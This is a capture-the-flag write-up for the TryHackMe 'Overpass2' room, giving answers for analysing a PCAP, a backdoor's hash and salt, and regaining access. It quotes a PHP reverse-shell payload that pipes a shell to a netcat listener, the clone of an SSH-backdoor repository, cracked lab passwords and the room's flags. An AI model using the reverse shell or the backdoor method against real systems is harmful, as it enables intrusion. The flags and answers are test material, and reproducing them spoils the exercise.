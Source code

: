 
# **Overpass2 - TryHackMe** 
> **KEERTAN SINGH, 15TH JUNE,2022**


## **Task1 - Forensics - Analyse the PCAP**
![alt overpass2](thumbnail.jpg)
### Notes:
```
Username: james
password : whenevernoteartinstant

Username: paradox
Password: secuirty3

Username: szymex
password: abcd123

Username: bee
password: secret12 

Username: muirland
Password: 1qaz2wsx

````
- What was the URL of the page they used to upload a reverse shell? 
```
/development/
```

- What payload did the attacker use to gain access?
```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

- What password did the attacker use to privesc?
```
whenevernoteartinstant
```

- How did the attacker establish peristence?
```
git clone https://github.com/NinjaJc01/ssh-backdoor
```

- using the fasttrack wordlist, how many of the system passwords were crackable?
```
4
```

## **Task2 - Research - Analyse the code**
### Notes:
```
> Hash.Mode........: 1710 (sha512($pass.$salt))
>6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16

```
- What's the default hash for the backdoor?
```
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```

- What's the hardcoded salt for the backdoor?
```
1c362db832f3f864c8c2fe05f2002a05
```

- What was the hash that the attacker used? - go back to PCAP for this!
```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```
- Crack the hash using rockyou and a cracking tool of your choice. What's the password?
```
november16
```

## **Task3 - Attack - Get back in!**
### Notes:
```

````

- The attacker defaced the website. What message did they leave as a heading?
```
H4ck3d by CooctusClan
```
- Using the information you've found previously, hack your way back in!
```
No Answer Needed
```

- What's the user flag?
```
thm{d119b4fa8c497ddb0525f7ad200e6567}
```
- What's the root flag?
```
thm{d53b2684f169360bb9606c333873144d}
```

